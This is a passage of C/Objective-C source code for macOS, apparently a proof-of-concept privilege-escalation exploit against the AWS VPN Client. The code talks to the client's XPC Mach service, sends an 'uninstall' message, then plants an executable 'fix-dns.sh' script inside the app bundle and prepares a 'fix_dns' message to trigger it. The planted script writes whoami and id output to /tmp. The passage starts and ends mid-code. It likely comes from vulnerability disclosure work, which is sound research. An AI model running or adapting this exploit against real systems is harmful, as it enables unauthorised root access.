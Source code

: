 ```c
    );
    xpc_dictionary_set_string(
        message, 
        XPC_SWITCH,
        C_XPC_UNINSTALL
    );

    NSLog(@"[i] Connecting to Mach service");
    xpc_connection_t conn = xpc_connection_create_mach_service(
        SERVICE_NAME, 
        NULL, 
        2
    );
    
    if (conn == 0x0) {
        NSLog(@"[ERROR] failed to create XPC Connection");
        exit(1);
    }

    NSLog(@"[i] Setting up event handler");
    xpc_connection_set_event_handler(
        conn, 
        ^(xpc_object_t object){
            NSLog(@"[INFO] Client received event: %s", 
                xpc_copy_description(object)
            );
        }
    );
    
    xpc_connection_resume(conn);

    NSLog(@"[i] Sending \"uninstall\" Mach message");
    xpc_connection_send_message_with_reply(
        conn, 
        message, 
        NULL, 
        ^(xpc_object_t object){
            NSLog(@"[INFO] Sent request\n");
            printf("%s\n", xpc_copy_description(object));
        }
    );

    sleep(1);

    NSLog(@"[i] Creating exploit directory");
    system("/bin/mkdir -p \"/Applications/AWS VPN Client/AWS VPN Client.app/Contents/Resources/openvpn\"");

    NSLog(@"[i] Creating exploit script");
    system("/usr/bin/printf \"#!/bin/bash\n/bin/date > /tmp/acvc.pwn\n/usr/bin/whoami >> /tmp/acvc.pwn\n/usr/bin/id >> /tmp/acvc.pwn\n\" > \"/Applications/AWS VPN Client/AWS VPN Client.app/Contents/Resources/openvpn/fix-dns.sh\"");

    NSLog(@"[i] Marking as executable");
    system("/bin/chmod +x \"/Applications/AWS VPN Client/AWS VPN Client.app/Contents/Resources/openvpn/fix-dns.sh\"");

    NSLog(@"[i] Setting up mach xpc dictionary \"fix_dns\"");
    xpc_dictionary_set_string(
        message, 
        XPC_SWITCH,
        C_XPC_FIX
    );
```